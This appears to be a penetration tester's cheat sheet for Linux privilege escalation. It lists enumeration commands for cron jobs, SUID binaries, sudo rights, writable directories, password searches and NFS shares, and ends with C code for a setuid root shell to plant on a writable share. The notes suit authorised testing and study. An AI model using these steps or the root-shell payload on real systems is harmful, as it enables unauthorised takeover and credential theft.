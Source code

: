 ### Recon

Change options at the top
```
./LinPeas.sh
```
Check output for last OS updated date.
Kernel version
Check for all users with bash in etc passwd
Look for process running as other user or root


### SUID

```bash
./suid3num.sh
```
https://gtfobins.github.io/

### Cron Jobs

```bash
crontab -l
ls -al /etc/cron* /etc/at*
cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```
```bash
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```

#### Sudo privs
```bash
sudo -l
```

#### Kernal

```
linuxexploitsuggester.sh
```

#### Programs Running as root/new user

```bash
ps aux
```

#### User installed software
```
# Common locations for user installed software
/usr/local/
/usr/local/src
/usr/local/bin
/opt/
/home
/var/
/usr/src/

# Debian
dpkg -l

# CentOS, OpenSuse, Fedora, RHEL
rpm -qa (CentOS / openSUSE )

# OpenBSD, FreeBSD
pkg_info
```

#### Plain text password:
```
# Anything interesting the the mail?
/var/spool/mail
```

```
./LinEnum.sh -t -k password
```

#### World writable scripts invoked as root
```
#World writable files directories
find / -writable -type d 2>/dev/null
find / -perm -222 -type d 2>/dev/null
find / -perm -o w -type d 2>/dev/null

# World executable folder
find / -perm -o x -type d 2>/dev/null

# World writable and executable folders
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null
```
#### Bad Path configuration
Check for . in path

#### Files systems and NFS Shares

Here we are looking for any unmounted filesystems. If we find one we mount it and start the priv-esc process over again.

```bash
mount -l
cat /etc/fstab
```
If you find that a machine has a NFS share you might be able to use that to escalate privileges. Depending on how it is configured.

```bash
# First check if the target machine has any NFS shares
showmount -e 192.168.1.101

# If it does, then mount it to you filesystem
mount 192.168.1.101:/ /tmp/
```

Check for write permissions on nfs. smbcacls?

If writable compile and upload code as root
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main()
{
    setuid(0);
    system("/bin/bash");
    return 0;
}
```
